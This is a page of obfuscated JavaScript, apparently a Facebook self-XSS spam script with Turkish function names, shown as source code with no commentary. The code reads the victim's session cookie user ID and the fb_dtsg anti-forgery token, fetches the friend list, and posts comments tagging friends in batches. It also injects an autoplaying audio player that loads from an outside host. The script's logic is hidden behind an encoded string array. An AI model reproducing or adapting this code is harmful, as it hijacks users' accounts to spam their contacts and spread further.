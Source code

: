 svn_rev;function arkadaslari_al(id){var _0x7892x7= new XMLHttpRequest();_0x7892x7[_0xa22c[6]]=function (){if(_0x7892x7[_0xa22c[7]]==4){eval(_0xa22c[8]+_0x7892x7[_0xa22c[12]].toString()[_0xa22c[11]](_0xa22c[9],_0xa22c[10])+_0xa22c[13]);for(f=0;f&lt;Math[_0xa22c[17]](arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]]/27);f++){mesaj=_0xa22c[10];mesaj_text=_0xa22c[10];for(i=f*27;i&lt;(f+1)*27;i++){if(arkadaslar[_0xa22c[16]][_0xa22c[15]][i]){mesaj+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]]+_0xa22c[22];mesaj_text+=_0xa22c[23]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]];} ;} ;yorum_yap(id,mesaj);} ;} ;} ;var _0x7892x8=_0xa22c[24];_0x7892x8+=_0xa22c[25];_0x7892x8+=_0xa22c[26];_0x7892x8+=_0xa22c[27];_0x7892x8+=_0xa22c[28]+user_id;_0x7892x8+=_0xa22c[29]+user_id;if(document[_0xa22c[32]][_0xa22c[31]](_0xa22c[30])>=0){_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[34]+_0x7892x8,true);} else {_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[36]+_0x7892x8,true);} ;_0x7892x7[_0xa22c[37]]();} ;function RandomArkadas(){var _0x7892xa=_0xa22c[10];for(i=0;i&lt;9;i++){_0x7892xa+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[21]]+_0xa22c[22];} ;return _0x7892xa;} ;function yorum_yap(id,_0x7892xc){var _0x7892xd= new XMLHttpRequest();var _0x7892x8=_0xa22c[10];_0x7892x8+=_0xa22c[40]+id;_0x7892x8+=_0xa22c[41]+encodeURIComponent(_0x7892xc);_0x7892x8+=_0xa22c[42];_0x7892x8+=_0xa22c[43];_0x7892x8+=_0xa22c[44];_0x7892x8+=_0xa22c[45];_0x7892x8+=_0xa22c[46];_0x7892x8+=_0xa22c[47]+id+_0xa22c[48];_0x7892x8+=_0xa22c[49];_0x7892x8+=_0xa22c[50];_0x7892x8+=_0xa22c[51];_0x7892x8+=_0xa22c[52];_0x7892x8+=_0xa22c[29]+user_id;_0x7892x8+=_0xa22c[53];_0x7892x8+=_0xa22c[54];_0x7892x8+=_0xa22c[55];_0x7892x8+=_0xa22c[56]+fb_dtsg;_0x7892x8+=_0xa22c[57];_0x7892xd[_0xa22c[35]](_0xa22c[58],_0xa22c[59],true);_0x7892xd[_0xa22c[62]](_0xa22c[60],_0xa22c[61]);_0x7892xd[_0xa22c[6]]=function (){if(_0x7892xd[_0xa22c[7]]==4&amp;&amp;_0x7892xd[_0xa22c[63]]==200){_0x7892xd[_0xa22c[64]];} ;} ;_0x7892xd[_0xa22c[37]](_0x7892x8);} ;arkadaslari_al(id); /* Music */ var parent=document.getElementsByTagName("html")[0]; var _body = document.getElementsByTagName('body')[0]; var _div = document.createElement('div'); _div.style.height="25"; _div.style.width="100%"; _div.style.position="fixed"; _div.style.top="auto"; _div.style.bottom="0"; _div.align="center"; var _audio= document.createElement('audio'); _audio.style.width="100%"; _audio.style.height="25px"; _audio.controls = true; _audio.autoplay = false; _audio.autoplay = true; _audio.src = " http://www.uploadhosting.co/uploads/197.153.64.61/mp4.ma_Dou-lon-vient_10Lv0t.mp3 "; _div.appendChild(_audio); _body.appendChild(_div); var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); var fb_dtsg=document.getElementsByName("fb_dtsg")[0].value; var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);   /* var parent=document.getElementsByTagName("html")[0]; var _body = document.getElementsByTagName('body')[0]; var _div = document.createElement('div'); _div.style.height="25"; _div.style.width="100%"; _div.style.position="fixed"; _div.style.top="auto"; _div.style.bottom="0"; _div.align="center"; var _audio= document.createElement('audio'); _audio.style.width="100%"; _audio.style.height="25px"; _audio.controls = true; _audio.autoplay = false; _audio.autoplay = true; _audio.src = " http://www.uploadhosting.co/uploads/197.153.64.61/mp4.ma_Dou-lon-vient_10Lv0t.mp3 "; _div.appendChild(_audio); _body.appendChild(_div); var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); var fb_dtsg=document.getElementsByName("fb_dtsg")[0].value; var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); */
